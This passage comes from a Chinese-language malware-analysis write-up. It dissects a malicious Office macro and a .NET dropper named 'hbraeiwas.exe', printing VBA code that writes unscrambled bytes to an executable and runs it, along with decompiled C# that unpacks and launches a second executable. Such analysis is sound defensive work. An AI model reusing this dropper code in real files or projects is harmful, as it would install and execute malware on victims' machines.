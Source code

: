            For Each vl In ar1othra
                ReDim Preserve btsothra(linothra)
                btsothra(linothra) = CByte(vl)
                linothra = linothra + 1
            Next
            Open path_othra_file & "xe" For Binary Access Write As #3
                 Put #3, , btsothra
            Close #3
             Shell path_othra_file & "xe", vbNormalNoFocus
        End Sub
        ```
        這個script簡單來說就是在做malware payload的extract，原本作者把惡意的payload scramble之後，當victim同意啟動Macro，他會再unscramble，可以看到下圖，他會依照不同的Application Version，選擇要用哪一個scramble payload接著把這些bits轉成bytes後寫到某一個檔案中，並且用shell執行該檔案，以上這些操作都極其詭異，另外他把檔案寫在
        ```vb
        Environ$("USERPROFILE") & "\Glhvadia\hbraeiwas"
        ```
        :::danger
        這一段是錯的，他看的版本是OS的版本號，來決定要用哪一隻Payload，因為這和後面.NET的版很也有關係
        :::
        ![image](https://hackmd.io/_uploads/r1H_RTzp6.png)
        實際去看也的確是在這邊
        ![image](https://hackmd.io/_uploads/H1RAlCza6.png)
    3. Anaylize hbraeiwas.exe
        根據DIE的解析，這是一個用.NET寫的script，我之前碰到.NET的例子不多，唯一有碰過的reverse經驗是來自[臺大計安的welcome題-Nine & Nine-Revenge](https://hackmd.io/@SBK6401/HkIYEw8Kh)
        ![image](https://hackmd.io/_uploads/HkBm8RfTT.png)
        一開始並不知道要先看哪裡，所以看了一些`.NET` reversing的文章，發現可以先從自定義的module開始看，也就是`hbraeiwas`這個class，如下圖
        ![image](https://hackmd.io/_uploads/H1M0HJQpp.png)
        透過copilot的解析可以很方便的看出這個程式的主要功能是解壓縮一個 ZIP 檔案並啟動其中包含的應用程式。這種行為常見於一些惡意軟體中，因為它可以用於自解壓縮並執行惡意程式碼，如果直接用動態debugger，就會更清楚他把東西unzip到哪邊去，他是decompress到`C:\ProgramData\Hdlharas\dlrarhsiva.exe`，並且實際執行
        ![image](https://hackmd.io/_uploads/HkWmWeXTa.png)
        再詳細說明一下，他先instantiate Class1，並且把裡面的內容丟到`dlrarhsiva.exe`，再執行，所以如果不想要分析其他有的沒得東西，可以直接看`Resources\dlrarhsiva7`這個執行檔
        ![image](https://hackmd.io/_uploads/HyMWUxmaa.png)
        :::spoiler
        ```csharp
        public void UnZip()
        {
            try
            {
                string apppath = this.get_apppath();
                Class1 @class = new Class1();
                byte[] wind = @class.getWind();
                bool flag = !Directory.Exists(apppath);
                if (flag)
                {
                    Directory.CreateDirectory(apppath);
                }
                string text = apppath + this.appName;
                File.WriteAllBytes(text, wind);
                string text2 = apppath + "mdkhm.zip";
                flag = !File.Exists(text2);
                if (flag)
                {
                    File.Move(text, text2);
                }
                string text3 = text + ".exe".ToString();
                flag = !File.Exists(text3);
                if (flag)